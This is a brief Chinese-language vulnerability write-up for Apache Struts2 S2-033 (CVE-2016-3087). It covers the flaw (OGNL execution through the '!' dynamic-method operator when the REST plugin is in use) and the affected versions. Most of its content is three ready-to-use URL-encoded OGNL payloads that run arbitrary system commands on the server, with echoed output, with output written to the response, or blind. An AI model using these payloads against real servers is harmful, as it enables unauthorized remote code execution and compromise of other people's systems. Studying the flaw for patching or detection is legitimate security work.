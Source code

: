 （CVE-2016-3087）s2-033
=======================

一、漏洞简介
------------

当开启动态方法调用，并且同时使用了Strut2 REST
Plugin插件时，使用"!"操作符调用动态方法可能执行ognl表达式，导致代码执行。

二、漏洞影响
------------

Struts 2.3.20 - Struts Struts 2.3.28（2.3.20.3和2.3.24.3除外）

三、复现过程
------------

### POC

有回显版本

    %23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23process%3D@java.lang.Runtime@getRuntime%28%29.exec%28%23parameters.command[0]),%23ros%3D%28@org.apache.struts2.ServletActionContext@getResponse%28%29.getOutputStream%28%29%29%2C@org.apache.commons.io.IOUtils@copy%28%23process.getInputStream%28%29%2C%23ros%29%2C%23ros.flush%28%29,%23xx%3d123,%23xx.toString.json?&command=whoami

图片.png

光有回显

    %23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23xx%3d123,%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr%3d%23context[%23parameters.obj[0]].getWriter(),%23wr.print(%23rs),%23wr.close(),%23xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=2908&command=id

没回显

    %23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime%28%29.exec%28%23parameters.command[0]),%23xx%3d123,%23xx.toString.json?&command=touch%20/tmp/success
